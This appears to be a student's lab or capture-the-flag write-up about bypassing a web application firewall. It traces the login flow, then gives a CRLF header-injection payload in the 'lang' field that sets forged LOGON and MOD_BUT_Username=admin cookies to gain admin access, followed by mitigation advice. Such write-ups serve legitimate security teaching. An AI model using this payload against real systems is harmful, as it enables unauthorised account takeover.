# Web App Firewall Bypass

## Answers

1. Explain the security problem
    - it is possible to inject a response header. 
        - 1. Post request is sent and WAF forwards the reqeust to the Login-Server
            - Our post request is modified and contains the some data, which will be in the response of the login server to the WAF  
            - WAF 
2. Explain your attack (exploit, screenshot, hacking journal)
    - see below
3. Explain mitigation (remedy)
    - WAF may not forward a request with unknown, possibly dangerous data to the login server. 
        - The login post/request should only allow: username and password as input in the body (ok in this example: lang and url would also have to be allowed) -> whitelist allowed input. 
        - either a request with unknown data should be blocked or sanitized (stripped of unknown input)

## Steps

**1+2 Check what happens upon login**
- 1. GET "/" Initially I see a login page (WAF has redirected me to the transparently to login server)
    - Cookie in request: `MOD_BUT=jUyf9vc5DMFLZgp4knWPW/krwnM8v8Fx`
- 2. POST "/login/Login.action" Post Login request with "hacker10" -> success and 302 redirect to "/secure"
    - Response set/replaces Cookie `MOD_BUT=Xj2YoOc+EKqNYUegh+LZHOoxKnPxQHgH;` 
- 3. GET "/secure" -> 302 redirect to same page "/secure" (cookie set before is now - of course - part of the request)
    - request doesn't get to the backend but now the WAF knows that this is a valid request
- 4. GET "/secure" -> returns the html I see now
    - this time, the WAF lets this request pass


**3+4 Exploit**

Exploit: 
- Post request "/login/Login.action" intercepted with Burp and the following line added to the request and sent. 
   `username=notRelevant&url=%2Fsecure&lang=EN;%0aSet-Cookie:%20LOGON=ok;%0aSet-Cookie:%20MOD_BUT_Username=admin&password=asdf`
- Success: Login as admin was possible
    - FLAG: 25ae1215-5726-4f76-ae94-7a45d56a19d8

![WAF_Bypass](WAF_Bypass.png)